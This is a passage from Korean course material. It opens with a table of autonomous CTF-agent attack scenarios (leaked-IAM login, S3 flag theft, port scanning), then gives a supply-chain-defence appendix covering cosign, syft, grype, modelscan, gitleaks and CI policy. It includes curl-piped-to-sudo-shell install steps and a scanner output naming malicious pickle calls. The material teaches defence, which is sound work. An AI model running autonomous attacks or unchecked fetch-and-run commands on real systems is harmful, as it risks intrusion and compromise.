|---|---|
| Data Theft 사례 | "S3 bucket 에서 flag 찾기" |
| Auth Hijack | "leaked IAM 으로 로그인" |
| Recon burst | "scan 으로 포트 enum" |

### 이 사례에서 학생이 배워야 할 3가지

1. **CTF Agent = 공격 자동 풀이** — 60%+ 성공률이 baseline.
2. **dataset chain → CTF 변환** — 학습 자료로 활용.
3. **0 사람 개입** — 자율 풀이.

**학생 액션**: 본인 CTF Agent 로 NYU CTF Easy 10문제 풀이 → 성공률 측정.


---

## 부록: 학습 OSS 도구 매트릭스 (Course10 — Week 14 공급망 보안)

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 |
|------|----------|---------|
| s1 | 코드 서명 | **sigstore + cosign** |
| s2 | SBOM 생성 | **syft** (Anchore) / cyclonedx-cli |
| s3 | 의존성 CVE | **grype** / Trivy / pip-audit / safety |
| s4 | 모델 검증 | **modelscan** (Protect AI) / picklescan |
| s5 | Secret 검색 | **gitleaks** / trufflehog |
| s6 | Container | Trivy + cosign (week10 재사용) |
| s7 | Admission control | OPA Gatekeeper (cosign verify) |
| s8 | 통합 supply chain | SLSA-GitHub-Generator |

### 학생 환경 준비

```bash
# 1) sigstore + cosign
sudo curl -L https://github.com/sigstore/cosign/releases/latest/download/cosign-linux-amd64 -o /usr/local/bin/cosign
sudo chmod +x /usr/local/bin/cosign

# 2) syft + grype (Anchore)
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | sudo sh -s -- -b /usr/local/bin
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sudo sh -s -- -b /usr/local/bin

# 3) cyclonedx-cli
go install github.com/CycloneDX/cyclonedx-cli/cmd/cyclonedx@latest

# 4) modelscan + picklescan
pip install modelscan picklescan

# 5) gitleaks
curl -L https://github.com/gitleaks/gitleaks/releases/latest/download/gitleaks_8.18.0_linux_x64.tar.gz | tar xz
sudo mv gitleaks /usr/local/bin/

# 6) trufflehog
docker pull trufflesecurity/trufflehog:latest

# 7) Python 의존성 점검
pip install pip-audit safety bandit

# 8) safetensors (안전한 모델 형식)
pip install safetensors
```

### 핵심 — Agent 공급망 6 위협 → 6 통제

| 위협 | 통제 도구 |
|------|---------|
| 1. 악성 pickle 모델 | modelscan / picklescan / safetensors |
| 2. 백도어 모델 | TrojAI / Neural-Cleanse (week04) |
| 3. 모델 변조 (man-in-middle) | cosign 서명 + SHA256 |
| 4. 의존성 CVE | grype / Trivy / pip-audit |
| 5. 데이터 출처 | DVC + datasheets |
| 6. Secret 누출 | gitleaks / trufflehog |

### 1. cosign (코드/모델/이미지 서명)

```bash
# 1) Key 생성
cosign generate-key-pair
# 출력: cosign.key (private), cosign.pub (public)

# 2) Container image 서명
cosign sign --key cosign.key registry.example.com/agent:v1.2.3

# 3) Blob 서명 (모델 파일)
cosign sign-blob --key cosign.key model.bin > model.bin.sig

# 4) 검증
cosign verify --key cosign.pub registry.example.com/agent:v1.2.3
cosign verify-blob --key cosign.pub --signature model.bin.sig model.bin

# 5) Keyless (OIDC, GitHub Actions 통합)
cosign sign --identity-token=$ID_TOKEN registry.example.com/agent:v1.2.3
# 자동으로 Sigstore Rekor 에 transparency log 기록
```

### 2. syft (SBOM 생성)

```bash
# 1) Container image
syft my-agent:latest -o spdx-json > sbom-image.json
syft my-agent:latest -o cyclonedx-json > sbom-image-cdx.json

# 2) Filesystem
syft dir:/opt/agent -o spdx-json > sbom-fs.json

# 3) Python project
syft scan dir:. -o spdx-json
# 모든 dependency + version + license 자동 검출

# 4) SBOM 비교 (전 버전 vs 현재)
diff <(jq '.packages[] | .name + "@" + (.versionInfo // "")' sbom-v1.json) \
     <(jq '.packages[] | .name + "@" + (.versionInfo // "")' sbom-v2.json)
```

### 3. grype (의존성 CVE)

```bash
# 1) Container image
grype my-agent:latest --severity-threshold high -o json > grype-result.json

# 2) Filesystem
grype dir:/opt/agent

# 3) SBOM 입력 (이미 생성된 SBOM 분석)
grype sbom:./sbom.json

# 4) Fix 가능한 CVE 만
grype my-agent:latest --only-fixed

# 5) CI 통합 (CRITICAL 발견 시 fail)
grype my-agent:latest --fail-on critical
```

### 4. modelscan (악성 pickle 탐지)

```bash
# 1) Pickle scan (.pkl, .pt, .h5, .keras, .pb 등)
modelscan -p model.pkl
modelscan -p model.h5
modelscan -p model.pt

# 출력 예 (악성 발견):
# CRITICAL: Suspicious operator detected: os.system call in pickle
# HIGH: Unsafe pickle.loads call
# MEDIUM: Globals access detected

# 2) URL (Hugging Face 직접)
modelscan -url https://huggingface.co/user/model/resolve/main/pytorch_model.bin

# 3) 디렉토리 일괄
modelscan -p /opt/models/

# 4) JSON 출력 (CI 통합)
modelscan -p /opt/models/ --format json > /tmp/modelscan-result.json

# 위험 수준 판정
jq '.scanned_files[] | select(.issues | map(.severity == "CRITICAL") | any)' /tmp/modelscan-result.json
```

### 5. safetensors (안전한 형식)

```python
from safetensors.torch import save_file, load_file
import torch

# Save (pickle 대신)
weights = model.state_dict()
save_file(weights, "model.safetensors")

# Load (코드 실행 불가능 — 안전)
weights = load_file("model.safetensors")
model.load_state_dict(weights)

# 비교:
# torch.save (pickle) → 임의 코드 실행 가능 (보안 위험)
# safetensors → 단순 binary 형식 (안전)
```

### 6. gitleaks (secret 검색)

```bash
# 1) Git repo 전체
gitleaks detect --source . --report-path /tmp/gitleaks.json --redact -v

# 2) Filesystem (git 없는 코드)
gitleaks detect --no-git --source /opt/agent --redact

# 3) Pre-commit hook 통합
cat > .pre-commit-config.yaml << 'EOF'
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
EOF
pre-commit install

# 4) GitHub Actions 통합
# .github/workflows/secret-scan.yml
# - uses: gitleaks/gitleaks-action@v2
```

### 7. Python 의존성 점검 (pip-audit + safety)

```bash
# pip-audit (PyPA 공식)
pip-audit -r requirements.txt
pip-audit -r requirements.txt --fix --dry-run        # 자동 fix 제안

# safety (PyUp.io)
safety check -r requirements.txt --json > /tmp/safety.json

# bandit (코드 정적 분석)
bandit -r /opt/agent --format json -o /tmp/bandit.json
```

### CI/CD 통합 (전체 supply chain pipeline)

```yaml
# .gitlab-ci.yml
stages: [scan, build, sign, deploy]

# === Phase 1: Pre-build scan ===
secret_scan:
  stage: scan
  script:
    - gitleaks detect --no-git --source . --report-path gitleaks.json
  artifacts: {paths: [gitleaks.json], expose_as: "Secrets Found"}

dep_check:
  stage: scan
  script:
    - pip-audit -r requirements.txt
    - safety check -r requirements.txt
    - bandit -r src/

model_scan:
  stage: scan
  script:
    - modelscan -p ./models/

# === Phase 2: Build ===
build:
  stage: build
  script:
    - docker build -t $CI_REGISTRY/$IMAGE:$CI_COMMIT_SHA .

# === Phase 3: Container scan + Sign ===
container_scan:
  stage: sign
  script:
    - trivy image --severity HIGH,CRITICAL --exit-code 1 $CI_REGISTRY/$IMAGE:$CI_COMMIT_SHA

sbom:
  stage: sign
  script:
    - syft $CI_REGISTRY/$IMAGE:$CI_COMMIT_SHA -o spdx-json > sbom.json
    - grype $CI_REGISTRY/$IMAGE:$CI_COMMIT_SHA --severity-threshold high
  artifacts:
    paths: [sbom.json]
    expose_as: "SBOM"

cosign_sign:
  stage: sign
  script:
    - cosign sign --key $COSIGN_KEY $CI_REGISTRY/$IMAGE:$CI_COMMIT_SHA
  
# === Phase 4: Deploy (admission control) ===
deploy:
  stage: deploy
  script:
    - cosign verify --key $COSIGN_PUB $CI_REGISTRY/$IMAGE:$CI_COMMIT_SHA
    - kubectl apply -f deploy.yaml
```

### Kubernetes admission control (cosign 미서명 거부)

```yaml
# OPA Gatekeeper 정책
apiVersion: templates.gatekeeper.sh/v1
kind: ConstraintTemplate
metadata: {name: requirecosignverification}
spec:
  crd:
    spec:
      names: {kind: RequireCosignVerification}
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package requirecosignverification
        violation[{"msg": msg}] {
          input.review.object.kind == "Pod"
          image := input.review.object.spec.containers[_].image
          not has_cosign_signature(image)
          msg := sprintf("Image %v missing cosign signature", [image])
        }
        
        has_cosign_signature(image) {
          response := http.send({
            "method": "GET",
            "url": sprintf("https://cosign-verifier/verify?image=%v", [image])
          })
          response.body.verified == true
        }
```

학생은 본 14주차에서 **sigstore + cosign + syft + grype + modelscan + safetensors + gitleaks + pip-audit + bandit** 9 도구로 agent 공급망의 6 위협 (악성 pickle / 백도어 / 변조 / CVE / secret / 데이터) 통합 방어 + CI/CD 통합 sigchain 을 익힌다.
